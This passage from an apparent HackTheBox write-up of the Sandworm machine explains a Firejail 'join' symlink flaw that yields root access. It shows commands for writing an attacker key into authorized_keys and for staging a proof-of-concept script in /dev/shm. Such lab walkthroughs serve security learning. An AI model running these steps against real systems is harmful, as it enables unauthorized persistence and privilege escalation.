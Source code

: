 "Full working exploit code was also provided" is great to hear. I used
this same exploit and script before on
[Cerberus](/htb-cerberus.md#escape).

#### Vulnerability Details

Firejail has a "join" functionality, where a user outside the sandbox
can run programs and interact inside the jail environment. The post
describes how the join functionality runs as effective UID 0 (root).

When trying to join a target process, it checks for a file in the
mounted namespace, `/run/firejail/mnt/join`. For the join to work, that
must be a regular file, owned by root (as seen from the initial user
namespace), and have a size of 1 byte, with that byte being the ASCII
character "1".

The issue here is that a user can create a symlink at
`/run/firejail/mnt/join` that points to a file that fulfils the
requirements, effectively faking a Firejail process. This allows the
attacker to get significant access from within their controller
environment.

### Exploitation

#### SSH

I'll need two shells to run this exploit, so I'll go for an SSH
connection. In `~/.ssh`, I'll create an `authorized_keys` file with my
public key, and make sure the permissions are right:



    atlas@sandworm:~/.ssh$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > authorized_keys
    atlas@sandworm:~/.ssh$ chmod 600 authorized_keys



Now I can connect:



    oxdf@hacky$ ssh -i ~/keys/ed25519_gen atlas@ssa.htb
    Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-73-generic x86_64)
    ...[snip]...
    atlas@sandworm:~$ 



I'll get two sessions up.

#### Exploit

I'll download the Python POC script and upload it to Sandworm. If I try
to run it without making it executable, it complains:



    atlas@sandworm:/dev/shm$ python3 firejoin.py 
    /dev/shm/firejoin.py needs to have the execute bit set for the exploit to work. Run `chmod +x /dev/shm/firejoin.py` and try again.
